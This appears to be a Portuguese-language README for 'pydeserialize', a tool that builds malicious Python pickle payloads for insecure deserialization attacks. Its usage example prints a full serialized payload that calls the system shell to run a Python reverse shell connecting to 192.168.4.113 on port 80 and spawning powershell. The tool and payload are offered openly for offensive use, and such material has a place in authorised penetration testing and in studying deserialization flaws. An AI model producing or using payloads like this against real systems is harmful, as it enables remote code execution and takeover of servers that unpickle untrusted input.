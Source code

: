 # Instalação

pydeserialize requer **python3** e para baixá-lo só usar:

```sh
pip3 install pydeserialize
```

# Executando pydeserialize

```console
pydeserialize -ip 192.168.4.113 -p 80 -o Windows -e shell

           _                 _     _ _         
 ___ _ _ _| |___ ___ ___ ___|_|___| |_|___ ___ 
| . | | | . | -_|_ -| -_|  _| | .'| | |- _| -_|
|  _|_  |___|___|___|___|_| |_|__,|_|_|___|___|
|_| |___|  
     v0.0.7 - @joaoviictorti     

b'\x80\x04\x95\xf9\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\xe1python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.4.113",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("powershell")\'\x94\x85\x94R\x94.'
```

<img width=100% src="https://capsule-render.vercel.app/api?type=waving&color=0000FF&height=120&section=footer"/>